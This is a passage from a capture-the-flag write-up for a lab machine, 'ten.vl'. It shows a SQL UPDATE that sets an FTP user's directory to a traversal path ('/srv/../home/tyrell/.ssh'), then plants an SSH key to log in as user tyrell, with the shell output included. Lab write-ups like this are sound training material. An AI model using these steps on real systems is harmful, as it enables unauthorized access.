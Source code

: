 But as you can see we can't go in ```.ssh``` because the config file of the FTP make it absolutely impossible to interact with any directories or files starting with a ```.```

So to bypass this, we can change the path of our FTP user to something like ```/srv/../home/the_user/.ssh```

Ok let's try :

```sql
UPDATE users 
SET 
	dir = '/srv/../home/tyrell/.ssh' 
WHERE 
	user = 'ten-b94344ef';
```

![alt text](../assets/image_ten/7ER.png)

Ok nice, let's put our public key and connect with our private key

```bash
ssh-keygen -t rsa -b 4096 -f id_rsa

mv id_rsa.pub authorized_keys

ftp> del authorized_keys
ftp> put authorized_keys

ssh -i id_rsa tyrell@ten.vl

tyrell@ten:~$ ls -la
total 32
drwxr-x--- 4 tyrell tyrell 4096 Sep 28 14:48 .
drwxr-xr-x 3 root   root   4096 Sep 28 08:51 ..
lrwxrwxrwx 1 tyrell tyrell    9 Sep 28 10:21 .bash_history -> /dev/null
-rw-r--r-- 1 tyrell tyrell  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 tyrell tyrell 3771 Jan  6  2022 .bashrc
drwx------ 2 tyrell tyrell 4096 Sep 28 10:16 .cache
-rw-r--r-- 1 tyrell tyrell  807 Jan  6  2022 .profile
drwx------ 2 tyrell tyrell 4096 Oct 14 17:16 .ssh
-r-------- 1 tyrell tyrell   37 Sep 28 10:20 .user.txt
```
Ok nice now let's root the machine.
